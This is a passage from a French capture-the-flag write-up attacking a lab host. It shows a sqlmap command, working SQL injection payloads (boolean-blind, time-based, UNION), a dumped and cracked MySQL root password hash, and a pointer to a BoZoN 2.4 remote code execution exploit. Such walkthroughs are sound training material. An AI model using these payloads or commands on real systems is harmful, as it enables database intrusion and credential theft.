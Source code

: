 ```bash
python sqlmap.py -u http://192.168.56.229/challenge/welcome.php --data "search=test&submit=Search" --dbms mysql --risk 3 --level 5
```

Sans surprises la faille est vérifiée :

```
sqlmap identified the following injection point(s) with a total of 167 HTTP(s) requests:
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: search=-1746' OR 7817=7817-- wctt&submit=Search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 6431 FROM (SELECT(SLEEP(5)))KmBn)-- ljzb&submit=Search

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: search=test' UNION ALL SELECT NULL,CONCAT(0x717a766271,0x7a546e6f4d55617850725175756c6656545a58706371747865594742464a73556454494472427048,0x716a767071),NULL-- -&submit=Search
---
```

Les requêtes SQL sont exécutées avec le compte `root`. Je peux dumper le hash via l'option `--passwords` :

```
[*] root [1]:
    password hash: *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
```

Il se casse rapidement car il correspond au clair `password`.

Les plus attentifs auront remarqué au début que Nmap a détecté la présence d'un `phpMyAdmin` sur le serveur web du CTF. Je peux donc m'y connecter et fouiller la base.

Il s'avère qu'il n'y a rien de plus par rapport au fichier SQL.

## BoZoN le ClOwNn

L'autre path qui était mentionné dans le base64 correspond à une installation de `BoZoN`.

Un exploit de RCE existe pour cette appli web :

[BoZoN 2.4 - Remote Code Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/41084)

Voici la description donnée :

```txt
A Bozon vulnerability allows unauthenticated attackers to add arbitrary users and inject system commands to the "auto_restrict_users.php"
file of the Bozon web interface.

This issue results in arbitrary code execution on the affected host, attackers system commands will get written and stored to the PHP file
"auto_restrict_users.php" under the private/ directory of the Bozon application, making them persist. Remote attackers will get the command
responses from functions like phpinfo() as soon as the HTTP request has completed.
```
